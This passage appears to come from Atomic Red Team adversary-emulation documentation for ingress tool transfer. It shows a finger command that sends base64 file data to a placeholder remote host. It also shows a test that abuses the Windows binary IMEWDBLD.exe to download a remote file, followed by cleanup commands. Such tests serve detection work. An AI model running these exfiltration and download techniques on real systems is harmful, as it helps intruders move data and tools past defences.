 
#### Attack Commands: Run with `command_prompt`! 


```cmd
finger base64_filedata@#{remote_host}
```






<br/>
<br/>

## Atomic Test #17 - Download a file with IMEWDBLD.exe
Use IMEWDBLD.exe (built-in to windows) to download a file. This will throw an error for an invalid dictionary file.
Downloaded files can be found in "%LocalAppData%\Microsoft\Windows\INetCache\<8_RANDOM_ALNUM_CHARS>/<FILENAME>[1].<EXTENSION>" or `%LocalAppData%\Microsoft\Windows\INetCache\IE\<8_RANDOM_ALNUM_CHARS>/<FILENAME>[1].<EXTENSION>.
Run "Get-ChildItem -Path C:\Users\<USERNAME>\AppData\Local\Microsoft\Windows\INetCache\ -Include <FILENAME>* -Recurse -Force -File -ErrorAction SilentlyContinue" without quotes and adding the correct username and file name to locate the file.

**Supported Platforms:** Windows


**auto_generated_guid:** 1a02df58-09af-4064-a765-0babe1a0d1e2





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_url | Location of file to be downloaded. | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1105/T1105.yaml|
| file_name | Name of the file to be downloaded without extension. | string | T1105|


#### Attack Commands: Run with `powershell`! 


```powershell
$imewdbled = $env:SystemRoot + "\System32\IME\SHARED\IMEWDBLD.exe"
& $imewdbled #{remote_url}
```

#### Cleanup Commands:
```powershell
$inetcache = $env:LOCALAPPDATA + "\Microsoft\Windows\INetCache\" 
$file_to_be_removed = [string[]] (Get-ChildItem -Path $inetcache -Include #{file_name}* -Recurse -Force -File -ErrorAction SilentlyContinue)
if("" -ne "$file_to_be_removed") { Remove-Item "$file_to_be_removed" -ErrorAction Ignore }
```


